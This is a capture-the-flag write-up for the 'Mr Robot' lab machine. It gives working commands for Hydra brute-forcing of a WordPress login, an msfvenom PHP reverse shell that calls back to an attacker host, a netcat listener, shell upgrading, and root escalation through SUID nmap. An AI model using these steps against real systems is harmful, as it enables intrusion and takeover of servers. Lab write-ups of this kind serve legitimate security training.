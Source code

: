 We begin with an autorecon scan, which quickly identifies ports 80 and 443 as being open. We run the usual follow-up scan with nmap to verify this. 
 
![f44abe2189a06cde038722087593642a.png](/Mr%20Robot%20CTF/_resources/f44abe2189a06cde038722087593642a-1.png)

![617b4242634ecdea43934f95e3484621.png](/Mr%20Robot%20CTF/_resources/617b4242634ecdea43934f95e3484621-1.png)
 
Let's take a look at the output given by the autorecon scan. Examining the `robots.txt` file reveals some information.
 
![cd64d02e2fae9273b64a045a4d22dcec.png](/Mr%20Robot%20CTF/_resources/cd64d02e2fae9273b64a045a4d22dcec-1.png)
 
Navigating to `http://10.10.89.74/key-1-of-3.txt` gives us the first key. The `robots.txt` also points us a wordlist at `http://10.10.89.74/fsocity.dic`, which we download.

From the feroxbuster output generated by Autorecon, we see an interesting directory.
 
![1e0e3dc41916e231c246961ce4308792.png](/Mr%20Robot%20CTF/_resources/1e0e3dc41916e231c246961ce4308792-1.png)

![bfa45c96aca8dd0b74774d530687f310.png](/Mr%20Robot%20CTF/_resources/bfa45c96aca8dd0b74774d530687f310-1.png)
 
Getting the body of the POST request of the login form using BurpSuite, we can try Hydra to brute force the login.

```bash
hydra -l <username guess> -P <path to wordlist> 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<error message for unsuccessful login>" -V
```

In this case, we want to use the wordlist `fsocity.dic` we found earlier. But first we need a username. Note that if we type in some test credentials, we get an error message which tells us the username is invalid.
 
![7fe06c5fd2a9bd063149467517c2f6ee.png](/Mr%20Robot%20CTF/_resources/7fe06c5fd2a9bd063149467517c2f6ee-1.png)
 
We can make use of this to try and find a valid username from our dictionary.

```bash
hydra -L fsocity.dic -p test 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -v 
```
 
![1b6adf98c66f0597934f8339991c41d4.png](/Mr%20Robot%20CTF/_resources/1b6adf98c66f0597934f8339991c41d4-1.png)
 
Thus we obtain the username `Elliot` (which maybe you could have gussed, given the theme of the box). If we attempt to login using this username, this verifies that `Elliot` is indeed a valid username. This also gives us another error message we can use with Hydra.
 
![e3699d755773c51a71ebe00815b2501b.png](/Mr%20Robot%20CTF/_resources/e3699d755773c51a71ebe00815b2501b-1.png)
 
Now we can attempt to run Hydra. We can either wait a very long time for Hydra to find the correct password, or we can cleanup the wordlist we found first. Using ``sort fsocity.dic | tee sorted.txt`` will list the words alphabetically. Then, ``uniq sorted.txt | tee trimmedlist.txt`` will remove any duplicate instances. Using `wc -l <file name>`, we can verify that this substantially reduced the size of our wordlist.
 
![62478eaa7c5fdf79cbfe3f12320b8a65.png](/Mr%20Robot%20CTF/_resources/62478eaa7c5fdf79cbfe3f12320b8a65-1.png)
 
Now we run Hydra again with the trimmed wordlist to find our password. 

```bash
hydra -l Elliot -P trimmedlist.txt 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

The `-t` switch specifies the number of tasks to run in parallel. The default is 16; I upped it since the attack was taking a long time. After almost 40 minutes, Hydra found the correct password.
 
![8f3edd3b1f9112d5b5302d2cab935b26.png](/Mr%20Robot%20CTF/_resources/8f3edd3b1f9112d5b5302d2cab935b26-1.png)
 
Alternatively, [wpscan](https://github.com/wpscanteam/wpscan) can be leveraged here since we know the blog is running on WordPress. We can use `wpscan --url http://10.10.89.74/wp-login.php -U Elliot -P <path to password list>` in an attempt to brute force the login. This was taking too long for me, so I just waited for Hydra to finish.

<br>

# Exploitation

Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.
 
![b012d5df19bf44bae95653fc177520dc.png](/Mr%20Robot%20CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr%20Robot%20CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.
 
![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr%20Robot%20CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)
 
<br>

# Post-exploitation

Digging around, we eventually find an interesting file. Unfortunately, we don't have access to it.
 
![1844ee5fae87970bb5e3a756ee69b538.png](/Mr%20Robot%20CTF/_resources/1844ee5fae87970bb5e3a756ee69b538-1.png)
 
We do, however, have access to a hash file. Cracking thehash reveals the password `abcdefghijklmnopqrstuvwxyz`.
 
![6cfb407e22dcf91f5146869db5f8796c.png](/Mr%20Robot%20CTF/_resources/6cfb407e22dcf91f5146869db5f8796c-1.png)
 
But, if we try to switch to the robot user with `su robot`, we encounter an error.
 
![6dbce00075572adfacbb6e05e9a13ec9.png](/Mr%20Robot%20CTF/_resources/6dbce00075572adfacbb6e05e9a13ec9-1.png)
 
So, let's upgrade our shell using `python -c 'import pty; pty.spawn("/bin/bash")'
`. Doing this allows us to switch users using the password we found above. We can then `cat` the second key.
 
![9048b29fef3190be8463b1662fadc3da.png](/Mr%20Robot%20CTF/_resources/9048b29fef3190be8463b1662fadc3da-1.png)
 
Now let's try and root the machine. We can esscalating privileges by looking for SUID files with `find / -perm -u=s -type f 2>/dev/null
`, we find a few.
 
![3ef1260af740e2b526300c3198f7ec23.png](/Mr%20Robot%20CTF/_resources/3ef1260af740e2b526300c3198f7ec23-1.png)
 
Nmap sticks out, so we check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and we see if nmap has the SUID bit set, we can use it to get a root shell. We run nmap in interactive mode with ``nmap --interactive`` and we spawn a root shell with ``!sh``.
 
![ec010bd95a1b1fc80a0a664f575cafaa.png](/Mr%20Robot%20CTF/_resources/ec010bd95a1b1fc80a0a664f575cafaa-1.png)
 
Navigating to `/root`, we find the final flag.
 
![a419f7d063b1538bfc082a6ceea43a98.png](/Mr%20Robot%20CTF/_resources/a419f7d063b1538bfc082a6ceea43a98-1.png)